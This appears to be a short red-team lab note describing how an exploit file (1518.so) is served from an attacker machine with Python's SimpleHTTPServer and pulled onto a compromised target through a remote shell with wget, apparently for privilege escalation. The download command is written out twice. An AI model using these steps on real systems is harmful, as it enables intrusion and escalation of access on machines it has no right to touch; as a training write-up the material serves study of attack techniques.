

# Red_Team/Target2_Exploit/Transferring_Exploit.md

Using the Python Simple HTTP service `python -m SimpleHTTPServer 80`, we can use the remote shell to `wget 192.168.1.90/temp/1518.so`, which downloads the file onto my target machine, giving the payload extra privileges, we can download it on the target system with the remote terminal we got executing the line `wget 192.168.1.90/temp/1518.so`